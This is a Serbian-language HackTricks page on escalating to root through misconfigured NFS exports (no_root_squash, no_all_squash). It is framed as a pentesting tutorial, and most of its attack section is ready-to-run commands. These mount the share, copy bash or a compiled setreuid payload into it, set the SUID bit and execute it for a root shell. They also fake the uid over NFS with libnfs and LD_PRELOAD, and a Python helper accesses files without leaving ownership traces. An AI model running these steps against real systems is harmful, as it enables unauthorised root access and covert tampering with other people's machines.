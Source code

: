 # NFS no\_root\_squash/no\_all\_squash misconfiguration PE

<details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Drugi načini podrške HackTricks-u:

* Ako želite da vidite **vašu kompaniju reklamiranu na HackTricks-u** ili **preuzmete HackTricks u PDF formatu** proverite [**PLANOVE ZA PRETPLATU**](https://github.com/sponsors/carlospolop)!
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Otkrijte [**The PEASS Family**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili nas **pratite** na **Twitter-u** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Podelite svoje hakovanje trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>

Pročitajte datoteku \_ **/etc/exports** \_, ako pronađete neki direktorijum koji je konfigurisan kao **no\_root\_squash**, tada ga možete **pristupiti** kao **klijent** i **pisati unutar** tog direktorijuma **kao** da ste lokalni **root** mašine.

**no\_root\_squash**: Ova opcija omogućava korisniku root na klijentu da pristupa datotekama na NFS serveru kao root. Ovo može dovesti do ozbiljnih sigurnosnih posledica.

**no\_all\_squash:** Ovo je slična opcija kao **no\_root\_squash**, ali se odnosi na **non-root korisnike**. Zamislite, imate shell kao nobody korisnik; proverite datoteku /etc/exports; opcija no\_all\_squash je prisutna; proverite datoteku /etc/passwd; emulirajte non-root korisnika; kreirajte suid datoteku kao taj korisnik (montiranjem pomoću nfs). Izvršite suid kao nobody korisnik i postanite drugi korisnik.

## Eskalacija privilegija

### Udaljeni napad

Ako ste pronašli ovu ranjivost, možete je iskoristiti:

* **Montiranjem tog direktorijuma** na klijentskoj mašini, i **kao root kopiranjem** unutar montiranog foldera **/bin/bash** binarnu datoteku i davanje **SUID** prava, i **izvršavanje sa žrtvene** mašine te bash binarne datoteke.

```bash
#Attacker, as root user
mkdir /tmp/pe
mount -t nfs <IP>:<SHARED_FOLDER> /tmp/pe
cd /tmp/pe
cp /bin/bash .
chmod +s bash

#Victim
cd <SHAREDD_FOLDER>
./bash -p #ROOT shell
```

* **Montiranje tog direktorijuma** na klijentskom računaru, i **kopiranje kao root** unutar montiranog foldera našeg kompajliranog payloada koji će zloupotrebiti SUID dozvole, dati mu **SUID** prava, i **izvršiti sa žrtvinog** računara tu binarnu datoteku (ovde možete pronaći neke [C SUID payloade](payloads-to-execute.md#c)).

```bash
#Attacker, as root user
gcc payload.c -o payload
mkdir /tmp/pe
mount -t nfs <IP>:<SHARED_FOLDER> /tmp/pe
cd /tmp/pe
cp /tmp/payload .
chmod +s payload

#Victim
cd <SHAREDD_FOLDER>
./payload #ROOT shell
```

### Lokalni eksploit

{% hint style="info" %}
Imajte na umu da ako možete da napravite **tunel sa vašeg računara do računara žrtve, i dalje možete koristiti udaljenu verziju za iskorišćavanje ovog eskalacije privilegija tuneliranjem potrebnih portova**.\
Sledeći trik je u slučaju da datoteka `/etc/exports` **ukazuje na IP adresu**. U ovom slučaju, nećete moći da koristite **udaljeni eksploit** i moraćete da **zloupotrebite ovaj trik**.\
Još jedan neophodan uslov za iskorišćavanje eksploita je da **izvoz unutar `/etc/export`** **mora koristiti `insecure` zastavicu**.\
\--_Nisam siguran da li će ovaj trik raditi ako `/etc/export` ukazuje na IP adresu_--
{% endhint %}

### Osnovne informacije

Scenario uključuje iskorišćavanje montiranog NFS deljenog resursa na lokalnom računaru, iskorišćavanjem greške u NFSv3 specifikaciji koja omogućava klijentu da specificira svoj uid/gid, potencijalno omogućavajući neovlašćeni pristup. Iskorišćavanje uključuje korišćenje [libnfs](https://github.com/sahlberg/libnfs), biblioteke koja omogućava falsifikovanje NFS RPC poziva.

#### Kompilacija biblioteke

Koraci kompilacije biblioteke mogu zahtevati prilagođavanje na osnovu verzije jezgra. U ovom konkretnom slučaju, fallocate syscalls su bili zakomentarisani. Proces kompilacije uključuje sledeće komande:

```bash
./bootstrap
./configure
make
gcc -fPIC -shared -o ld_nfs.so examples/ld_nfs.c -ldl -lnfs -I./include/ -L./lib/.libs/
```

#### Izvođenje napada

Napad uključuje kreiranje jednostavnog C programa (`pwn.c`) koji povećava privilegije na root i zatim izvršava shell. Program se kompajlira, a rezultirajući binarni fajl (`a.out`) se postavlja na deljeni folder sa suid root, koristeći `ld_nfs.so` da bi se lažirao uid u RPC pozivima:

1. **Kompajlirajte kod napada:**

```bash
cat pwn.c
int main(void){setreuid(0,0); system("/bin/bash"); return 0;}
gcc pwn.c -o a.out
```

2. **Postavite napad na deljeni folder i izmenite dozvole lažiranjem uid-a:**

```bash
LD_NFS_UID=0 LD_LIBRARY_PATH=./lib/.libs/ LD_PRELOAD=./ld_nfs.so cp ../a.out nfs://nfs-server/nfs_root/
LD_NFS_UID=0 LD_LIBRARY_PATH=./lib/.libs/ LD_PRELOAD=./ld_nfs.so chown root: nfs://nfs-server/nfs_root/a.out
LD_NFS_UID=0 LD_LIBRARY_PATH=./lib/.libs/ LD_PRELOAD=./ld_nfs.so chmod o+rx nfs://nfs-server/nfs_root/a.out
LD_NFS_UID=0 LD_LIBRARY_PATH=./lib/.libs/ LD_PRELOAD=./ld_nfs.so chmod u+s nfs://nfs-server/nfs_root/a.out
```

3. **Izvršite napad da biste dobili privilegije root-a:**

```bash
/mnt/share/a.out
#root
```

### Bonus: NFShell za neprimetan pristup fajlovima

Kada se dobije pristup kao root, za interakciju sa NFS deljenim folderom bez menjanja vlasništva (kako bi se izbegli tragovi), koristi se Python skripta (nfsh.py). Ova skripta prilagođava uid da odgovara uid-u fajla koji se pristupa, omogućavajući interakciju sa fajlovima na deljenom folderu bez problema sa dozvolama:

```python
#!/usr/bin/env python
# script from https://www.errno.fr/nfs_privesc.html
import sys
import os

def get_file_uid(filepath):
try:
uid = os.stat(filepath).st_uid
except OSError as e:
return get_file_uid(os.path.dirname(filepath))
return uid

filepath = sys.argv[-1]
uid = get_file_uid(filepath)
os.setreuid(uid, uid)
os.system(' '.join(sys.argv[1:]))
```

Pokrenite kao:

```bash
# ll ./mount/
drwxr-x---  6 1008 1009 1024 Apr  5  2017 9.3_old
```

### Reference

* [https://www.errno.fr/nfs\_privesc.html](https://www.errno.fr/nfs\_privesc.html)

<details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Drugi načini podrške HackTricks-u:

* Ako želite da vidite **vašu kompaniju oglašenu na HackTricks-u** ili **preuzmete HackTricks u PDF formatu** proverite [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Otkrijte [**The PEASS Family**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili nas **pratite** na **Twitter-u** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Podelite svoje hakovanje trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>
